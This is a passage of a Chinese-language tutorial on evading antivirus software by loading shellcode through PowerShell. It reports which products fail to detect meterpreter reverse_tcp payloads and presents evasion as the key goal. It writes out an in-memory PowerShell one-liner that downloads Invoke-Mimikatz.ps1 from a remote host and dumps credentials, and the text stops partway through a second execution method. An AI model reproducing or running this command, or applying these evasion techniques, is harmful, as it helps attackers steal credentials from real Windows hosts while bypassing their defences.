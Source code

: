 **几点说明：**

**1、上表中标识 √ 说明相应杀毒软件未检测出病毒，也就是代表了Bypass。**

**2、为了更好的对比效果，大部分测试payload均使用msf的`windows/meterperter/reverse_tcp`模块生成。**

**3、由于本机测试时只是安装了360全家桶和火绒，所以默认情况下360和火绒杀毒情况指的是静态+动态查杀。360杀毒版本`5.0.0.8160`(2020.01.01)，火绒版本`5.0.34.16`(2020.01.01)，360安全卫士`12.0.0.2002`(2020.01.01)。**

**4、其他杀软的检测指标是在`virustotal.com`（简称VT）上在线查杀，所以可能只是代表了静态查杀能力，数据仅供参考，不足以作为免杀或杀软查杀能力的判断指标。**

**5、完全不必要苛求一种免杀技术能bypass所有杀软，这样的技术肯定是有的，只是没被公开，一旦公开第二天就能被杀了，其实我们只要能bypass目标主机上的杀软就足够了。**

 ---


# 1 powershell加载shellcode介绍

UNIX系统一直有着功能强大的壳程序（shell），Windows PowerShell的诞生就是要提供功能相当于UNIX系统的命令行壳程序（例如：sh、bash或csh），同时也内置脚本语言以及辅助脚本程序的工具，使命令行用户和脚本编写者可以利用 .NET Framework的强大功能。

powershell具有在硬盘中易绕过，内存中难查杀的特点。一般在后渗透中，攻击者可以在计算机上执行代码时，会下载powershell脚本来执行，ps1脚本文件无需写入到硬盘中，直接可以在内存中执行。

常见的powershell攻击工具有powersploit、nishang、empire、powercat，都提供了非常牛掰的攻击脚本，也正因为powershell的强大，现在被杀软都盯的非常紧了。我们这里只是介绍powershell加载shellcode的几种简单方式，是powershell众多功能中的很小的一个方面。

**Powershell加载shellcode方法比较灵活，shellcode一般都不会被查杀，而如何对Powershell脚本进行静态和行为免杀，就成了免杀的一个关键了。**

之前的文章提到很多工具都可以生成免杀的powershell脚本，比如veil、Venom、SpookFlare、Unicorn等，感兴趣的可以去研究一下他们的原理。

# 2 powershell的几个基础知识

## 2.1 powershell版本问题

powershell只能针对win7之后的系统，之前的win操作系统默认没有安装powershell。不同架构的payload（x86或x64）需要不同版本的powershell来加载，否则会出错。

64位所在目录：`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

32位所在目录：`C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`

## 2.2 常见执行方式

先介绍一下powershell的两种常见执行方式：

**1、网络环境直接执行代码**

无文件写入，相对较为隐蔽。下面代码为加载远程脚本`Invoke-Mimikatz.ps1`，执行Mimikatz的DumpCreds功能。

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.211.55.2/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```
**2、 本地执行**

先把`http://10.211.55.2/Invoke-Mimikatz.ps1`下载到本地
